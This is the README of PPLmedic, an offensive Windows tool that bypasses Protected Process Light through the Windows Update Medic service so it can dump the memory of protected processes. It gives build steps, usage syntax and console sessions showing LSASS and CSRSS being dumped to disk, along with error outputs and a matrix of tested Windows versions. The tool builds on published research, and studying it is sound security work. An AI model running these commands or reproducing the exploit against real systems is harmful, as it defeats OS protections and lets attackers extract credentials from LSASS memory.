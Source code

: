 # PPLmedic

<p align="center">
  <img src="poc.png">
</p>

This tool implements a **Userland** exploit chain for injecting arbitrary code into a PPL with the signer type `Windows` and elevating to the signer type `WinTcb`. These techniques were originally discussed by James Forshaw (a.k.a. [@tiraniddo](https://infosec.exchange/@tiraniddo)) in his blog post [Injecting Code into Windows Protected Processes using COM - Part 1](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html).

To learn more about this tool, you should read its companion blog post here:

- [Bypassing PPL in Userland (again)](https://blog.scrt.ch/2023/03/17/bypassing-ppl-in-userland-again/)

## 💣 Disclaimer

I would qualify this tool as an _advanced Proof-of-Concept_. You should think twice before using it on a real engagement. It is safe to use as long as it is __not interrupted__, which cannot be guaranteed in the presence of an EDR for instance.

It modifies important registry keys related to the Windows Update Medic service. At worst, if those registry keys are not restored properly, this service will fail to function properly, but this __will not crash__ the OS.

## 📝 Usage

Prerequisites:

- __Privileges:__ Administrator or SYSTEM with `SeDebugPrivilege`
- __Platform:__ Windows 10/11 or Windows Server 2019/2022
- __Architecture:__ Only __x86_64__ is supported

```bat
REM Use the option -p to elevate from PPL-Windows to PPL-WinTcb
PPLmedic.exe dump "PID" "C:\FULL\PATH\TO\DUMP.dmp" [-p]
```

Dump a PPL-Windows or below (e.g.: LSASS):

```console
C:\WINDOWS\system32>tasklist | findstr lsass
lsass.exe                      756 Services                   0     20,028 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 756 c:\Temp\lsass.dmp
[...]
[+] Payload DLL successfully loaded after 272 attempts!
[*] Deleting 272 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[+] Memory dump of process with PID 756 successful: c:\Temp\lsass.dmp
[...]
```

Dump a PPL-WinTcb (e.g.: CSRSS):

```console
C:\WINDOWS\system32>tasklist | findstr csrss
csrss.exe                      520 Services                   0     26,420 K
csrss.exe                      608 Console                    1     57,548 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 520 c:\Temp\csrss.dmp -p
[...]
[+] Payload DLL successfully loaded after 181 attempts!
[*] Deleting 181 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[+] Target file 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' should now be cache signed (level=12 - Windows).
[*] Connected to remote process.
[+] Remote process protection level: 0x00000000 (PsProtectedSignerWinTcb-Light)
[+] Memory dump of process with PID 520 successful: c:\Temp\csrss.dmp
[...]
```

## 📋 Tests

| Windows version | PPL-Windows | PPL-WinTcb | Observation |
| --- | :---: | :---: | --- |
| __Windows 10__ 22H2 Build 19045.2673 | ✔ | ✔ | N/A |
| __Windows 11__ 22H2 Build 22621.1344 | ⚠ | ❌ | Frequent service crash + Fake cached signature exploit does not seem to work. |
| __Windows Server 2019__ Version 1809 Build 17763.4010 | ✔ | ✔ | N/A |
| __Windows Server 2022__ Version 21H2 Build 20348.1547 | ✔ | ✔ | N/A |

## 🚧 Known issues

### Error: "Unexpected error or timeout"

You get the following error because the exploit __timed out__ while trying to create a remote `TaskHandler` COM object. This is usually the sign that the target service `WaaSMedicSvc` crashed. This can be confirmed with the next message: `[!] Service WaaSMedicSvc is no longer running`. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Unexpected error or timeout while trying to create a remote TaskHandler instance.
[!] Service WaaSMedicSvc is no longer running, it probably crashed because of an invalid handle value.
[...]
```

### Error: "Reached the maximum number of attempts"

You get the following error because the exploit failed to write a valid object directory in __less than 1000 attempts__. This limit serves as a failsafe to prevent the target service from consuming too much resources. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[...]
[*] Attempt 1000/1000 (100%)
[-] Reached the maximum number of attempts.
[...]
```

### Error: "Failed to write LdrpKnownDllDirectoryHandle value"

You get the following error because an unexpected error occurred when calling `LaunchDetectionOnly` or `LaunchRemediationOnly`. This should be quite rare though. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Failed to write LdrpKnownDllDirectoryHandle value (thread exit code: 0x800706ba).
[...]
```

### Error: "Failed to cache sign ..."

You get the following error because the exploit __failed to cache sign__ the payload DLL. The oplock set on the catalog file was probably never triggered because it was already opened by the Kernel. You can try to rerun the tool at a later time (for Windows 11, refer to the "Tests" section).

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp -p
[...]
[*] Trying to write a valid object directory handle...
[+] Payload DLL successfully loaded after 1 attempts!
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[-] Failed to cache sign 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' (LE: 997).
[...]
```

## 🏗 Build instructions

This Visual Studio Solution comprises two projects (the executable and a payload DLL) that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions. The compiled payload DLL is automatically embedded into the final executable.

1. Open the Solution with Visual Studio 2019.
2. Select `Release / x64` (`x86` is not supported!).
3. `Build > Build Solution`.

## 🎖 Credits

- [@tiraniddo](https://infosec.exchange/@tiraniddo) - Injecting Code into Windows Protected Processes using COM - Part 1  
[https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html)
